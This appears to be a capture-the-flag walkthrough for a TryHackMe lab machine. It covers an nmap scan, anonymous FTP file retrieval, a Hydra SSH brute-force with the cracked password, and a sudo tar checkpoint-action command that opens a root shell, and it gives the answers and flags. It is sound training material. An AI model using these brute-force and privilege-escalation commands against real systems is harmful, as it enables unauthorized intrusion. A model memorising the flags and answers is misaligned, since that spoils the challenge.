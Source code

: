#Linux #tar #privesc #security 

---

> Doing an nmap scan to discover open ports and services.

```
└─$ nmap -sC -sV 10.10.80.223
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-08 07:32 EDT
Nmap scan report for 10.10.80.223
Host is up (0.16s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.5.150
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.78 seconds
```

> We see that we login as `anonymous` user into `ftp`.

```
ftp anonymous@10.10.80.223
```

> Listing the contents, we see 2 files.

![](./screenshots/ftp-1.png)

> Downloading both files to view their contents on our local attacking machine.

```
get locks.txt
get task.txt
```

![](./screenshots/cat-1.png)

######  Who wrote the task list? : `lin` .

###### What service can you bruteforce with the text file found? : `ssh` .

> We use Hydra to attack `ssh` with the given username `lin` and the passwords found in the `locks.txt` file.

```
hydra -l lin -P locks.txt ssh://10.10.80.223 
```

![](./screenshots/hydra.png)

> We get the password `RedDr4gonSynd1cat3`.

###### What is the users password? : `RedDr4gonSynd1cat3` .

> Now logging in as `lin` into the ssh machine and giving the password when prompted.

![](./screenshots/ssh-1.png)

> Listing the contents via `ls`, we see a `user.txt` file.
> Opening it to view its contents and submit the flag.

```
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
```

###### user.txt : `THM{CR1M3_SyNd1C4T3}` .

> We check what are the binaries we can run as sudo user.

```
sudo -l
```

![](./screenshots/sudo-1.png)

> We see that we can run `tar` as superuser.
> Checking out [GTFObins](https://gtfobins.github.io/gtfobins/tar/) for `tar`, we see there is a privilege escalation technique using `sudo`.

![](./screenshots/gtfo-1.png)

> We paste this command in the `ssh` terminal and become root user.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

> We become root user.
> Going to the root directory and opening the `root.txt` flag.

```
cd ../../../root
cat root.txt
```

> We get the flag: `THM{80UN7Y_h4cK3r}`.

###### root.txt : `THM{80UN7Y_h4cK3r}` .

---

